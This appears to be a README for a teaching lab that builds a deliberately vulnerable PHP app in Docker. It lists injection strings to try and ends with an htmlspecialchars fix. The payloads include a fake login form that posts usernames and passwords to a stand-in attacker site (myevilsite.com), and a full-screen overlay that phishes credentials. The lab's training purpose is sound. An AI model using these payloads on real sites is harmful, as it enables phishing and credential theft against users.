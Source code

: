 # Command Injection Example - PHP

## Building the example

* Clone this git repository
* Navigate to Lab4 and run <code>docker-compose build && docker-compose up</code> Note this may take a couple minutes the first time. It will be faster on subsequent executions since docker will cache the packages that the php container uses.
* Open a browser and navigate to your virtual server

## Exploit strings to try

* &lt;h1&gt;Hello&lt;/h1&gt;

* &lt;div id='stealPassword'&gt;Please Login:&lt;form name='input' action='http://myevilsite.com/stealPassword.php' method='post'&gt;Username: &lt;input type='text' name='username'&gt;&lt;br&gt;Password: &lt;input type='password' name='password'&gt;&lt;input type='submit' value='Login'&gt;&lt;/form&gt;&lt;/div&gt;

* &lt;/pre&gt;&lt;div id="overlay" style="position:fixed;top:0;left:0;bottom:0;right:0;height: 100%;width: 100%;margin: 0;padding: 0;background: %23000000;opacity: 1;filter: alpha(opacity=30);-moz-opacity: 1;z-index: 101;"&gt;&lt;h1&gt;Sorry, we got your credentials wrong. Can you enter them again?&lt;/h1&gt;&lt;form method="get" action=""&gt;&lt;input type="text" name="username"&gt;&lt;br&gt;&lt;input type="password" name="password"&gt;&lt;br&gt;&lt;input type="submit"&gt;&lt;/div&gt;

## Fixing the vulnerabilities

* Locate the spots in the code where the malicious strings are being <strong>printed</strong> and surround the string with <code>htmlspecialchars($YOUR_STRING_VARIABLE_HERE, ENT_QUOTES, 'UTF-8');</code>
